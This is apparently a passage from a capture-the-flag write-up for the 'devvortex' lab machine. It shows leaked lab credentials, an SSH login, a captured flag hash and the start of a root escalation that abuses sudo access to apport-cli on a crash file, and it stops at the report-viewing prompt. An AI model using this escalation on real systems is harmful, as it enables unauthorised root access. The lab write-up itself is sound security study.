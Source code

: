 That's means the `logan`'s credentials are
```
user: logan
pass: tequieromucho
```

Let's try connect with `ssh`  !
```
ssh logan@devvortex.htb
```
> Enter *tequieromucho* as password

Done ! So let's check for the ```user.txt``` flag
```
75601b525474a3c1f239dd5507e8b1da
```

Let's start the privilege scalation ! Let's check our privileges
```
sudo -l
```

We have this : `apport`!
```
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Let's get the version of this tool
```
logan@devvortex:~$ sudo /usr/bin/apport-cli -v
2.20.11
```

Looking on internet for a exploit, there's a [exploit](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) ! let's exploit this !
```
sudo /usr/bin/apport-cli /var/crash/_usr_bin_sleep.1000.crash
```

We are supposed to have this output
```
*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I:  Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):
```
> Following the exploit, let's enter the letter `V` !
